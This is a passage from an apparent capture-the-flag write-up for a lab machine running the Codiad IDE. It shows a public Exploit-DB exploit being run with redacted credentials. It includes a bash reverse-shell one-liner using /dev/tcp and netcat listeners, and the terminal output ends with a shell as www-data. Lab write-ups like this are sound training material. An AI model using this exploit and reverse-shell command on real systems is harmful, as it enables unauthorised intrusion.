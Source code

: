```bash
--------------------------------------------------------------------------------------------------------------------------- --------------------------------
```

# Foothold

Let's use this exploit => https://www.exploit-db.com/exploits/49705

Running the exploit.

```bash
└─$ python3 49705.py http://10.10.180.194:62337/ john CENSORED YOUR_IP 4444 linux
[+] Please execute the following command on your vps: 
echo 'bash -c "bash -i >/dev/tcp/YOUR_IP/4445 0>&1 2>&1"' | nc -lnvp 4444
nc -lnvp 4445
[+] Please confirm that you have done the two command above [y/n]
[Y/n] Y
[+] Starting...
[+] Login Content : {"status":"success","data":{"username":"john"}}
[+] Login success!
[+] Getting writeable path...
[+] Path Content : {"status":"success","data":{"name":"CloudCall","path":"\/var\/www\/html\/codiad_projects"}}
[+] Writeable Path : /var/www/html/codiad_projects
[+] Sending payload...

--- ---

└─$ echo 'bash -c "bash -i >/dev/tcp/YOUR_IP/4445 0>&1 2>&1"' | nc -lnvp 4444
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4444
Ncat: Listening on 0.0.0.0:4444
Ncat: Connection from 10.10.180.194.
Ncat: Connection from 10.10.180.194:38116.
                                                                                                                                                             
┌──(kali㉿kali)-[~/Documents/ctf/thm_easy_ide]

--- ---

└─$ ncat -lnvp 4445                             
Ncat: Version 7.93 ( https://nmap.org/ncat )
Ncat: Listening on :::4445
Ncat: Listening on 0.0.0.0:4445
Ncat: Connection from 10.10.180.194.
Ncat: Connection from 10.10.180.194:47536.
bash: cannot set terminal process group (906): Inappropriate ioctl for device
bash: no job control in this shell
www-data@ide:/var/www/html/codiad/components/filemanager$ id
id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
www-data@ide:/var/www/html/codiad/components/filemanager$ 
```
